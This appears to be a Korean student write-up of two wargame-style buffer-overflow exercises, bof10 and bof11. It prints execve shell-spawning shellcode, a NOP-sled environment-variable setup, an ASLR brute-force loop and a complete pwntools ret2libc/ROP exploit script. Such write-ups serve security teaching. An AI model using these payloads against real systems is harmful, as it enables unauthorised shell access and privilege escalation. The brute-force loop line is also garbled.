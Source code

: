 # 과제 

## BoF10
### 취약점 분석

![bof10_1](image/bof10_1.png)

bof10은 main함수로부터 argument를 받아 strcpy함수를 이용하여 buf에 저장하기 때문에 Overflow가 일어날 수 있다.

하지만 bufsitze가 shellcode가 들어갈 정도로 크지 않기 때문에 환경변수를 이용하여야 한다.

![bof10_2](image/bof10_2.png)

![bof10_3](image/bof10_3.png)

파일을 실행시켜 보았을때 SHELLCODE라는 환경변수가 없는 것을 확인했다.


다음과 같이 32bit용 Shellcode를 환경변수 SHELLCODE안에 저장한다.

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

![bof10_4](image/bof10_4.png)

프로그램을 실행시켰을때 ASLR기법이 적용되어 메모리 주소가 계속 변하는 것을 확인할 수 있다.

![bof10_5](image/bof10_5.png)

이럴때는 무작위로 때려박아 내가 원하는 shellcode가 실행될 때 까지 돌려야 한다.

그 확률을 높이기 위하여 NOP코드 13000개를 추가한다.

그럼 13000개의 NOP코드중 어느곳에 떨어지든 Shellcode를 실행시킬 수 있기 때문에 Shell이 실행될 확률이 높아진다.



    export SHELLCODE="`python -c '\x90'*13000+'print"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"

while do 문을 이용하여 권한을 얻을때 까지 반복한다.
    
    while true; while true; do ./bof10 `python -c "print 'a'*20 + '\x94\x85\xbc\xff'"`;done do;

![bof10_6](image/bof10_6.png)

## BoF11
### 취약점 분석

![bof11_1](image/bof11_1.png)

bof11은 fgets함수를 이용하여 데이터를 입력받아 저장하기 때문에 Overflow가 발생할 수 있다. 

 bof11은 NX bit가 적용되어 있고 ASLR이 적용되어 있기 때문에 단순하게 RTL방식을 사용해서는 권한을 가져올 수 없다. 

![bof11_2](image/bof11_2.png)

하지만 system에서 printf함수의 주소가 유출되는 것을 확인할 수 있다.

printf의 주소를 알 수 있으면 system함수,pop rdi; ret, /bin/sh 문자열의 상대 거리를 알 수 있다.

printf주소 - system함수 주소

printf주소 - pop rdi;ret 주소

printf주소 - /bin/sh 문자열 주소
를 통하여 상대거리를 구한뒤

프로그램내에서 printf주소 - 상대거리를 계산해 원하는 주소값을 찾을 수 있다.

--------------------------------------------------------
먼저 overflow가 일어나는 크기를 구한다. 18byte

![bof11_3](image/bof11_3.png)

![bof11_4](image/bof11_4.png)

---

프로그램을 실행시킨 후  printf 함수와 system함수의 주소값을 빼 상대거리를 구한다. 

0x10470

![bof11_5](image/bof11_5.png)

---

![bof11_8](image/image/bof11_8.png)

    ROPgadget.py --binary //tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret'
명령어를 통하여 pop rdi; ret 명령어의 offset을 구한 뒤

![bof11_6](image/bof11_6.png)

프로그램 내부에서 실제 pop rdi; ret값 즉 libc시작 주소와 더한 값을 printf함수와 빼준다

0x346fe

--------------------------------------------------------
search-pattern /bin/sh를 이용하여 /bin/sh 문자열의 주소를 찾은 뒤 printf 함수와의 상대 거리를 구한다.

![bof11_7](image/bof11_7.png)

/bin/sh 주소의 값이 더 크기 때문에 계산에 편의를 위하여 큰값에서 작은값을 빼준다.

모든 주소의 상대 거리를 구했기 때문에 python 프로그램을 작성해준다.

<details>
<summary>Python 코드</summary>
<div markdown="1">

```python
from pwn import*

# process함수를 이용하여 실행하고자 입력
p = process('./bof11')

# recvuntil함수를 이용하여 printf() address : 까지 받아와 버린다.
p.recvuntil('printf() address :')

#남은 printf의 주소값만을 저장한다.
printf_addr = p.recvuntil('\n')[:-1]

#recvuntil을 이용하여 받아온 정보는 Byte이기 때문에 .decode()를 이용하여 변환한다.
printf_addr =printf_addr.decode()

#변환된 값은 문자열이기 때문에 정수형태로 바꿔 주소를 계산을 해준다.
system_addr = int(printf_addr,16) - 0x10470
binsh_addr =int(printf_addr,16) + 0x137557
poprdi_ret = int(printf_addr,16) - 0x346fe



# 얻어낸 정보를 이용하여 Payload를 작성한다.

# p64를 이용하여 변환된 값은 byte이기 때문에 버퍼를 채울 쓰레기 값들도 byte로 변환시켜준다.
payload = b'x'*18

#64bit little endian방식으로 payload를 추가해준다.
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

#payload를 보내고 interactive함수를 이용하여 payload를 전달한다.
p.send(payload)
p.interactive()
```

</div>
</details>


다음과 같이 작성된 python코드를 실행시키면

![final](image/bof11_9.png)

bof12의 권한을 가져온 것을 확인할 수 있다.
